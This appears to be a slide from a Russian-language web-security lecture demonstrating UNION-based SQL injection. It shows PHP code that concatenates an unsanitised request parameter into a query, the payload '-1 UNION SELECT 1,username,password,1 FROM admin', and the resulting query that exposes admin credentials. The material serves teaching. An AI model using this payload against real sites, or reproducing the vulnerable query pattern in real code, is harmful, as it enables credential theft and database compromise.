

# Использование UNION
Прием данных
$id = $_REQUEST['id'];
Запрос
$res = mysql_query("SELECT id_news, header, …
				    FROM news
				    WHERE id_news = " . $id);
Текст
-1 UNION SELECT 1,username,password,1 FROM admin
Результат
SELECT id_news, header, body, author
	FROM news
	WHERE id_news = -1
	UNION
 SELECT 1,username,password,1 FROM admin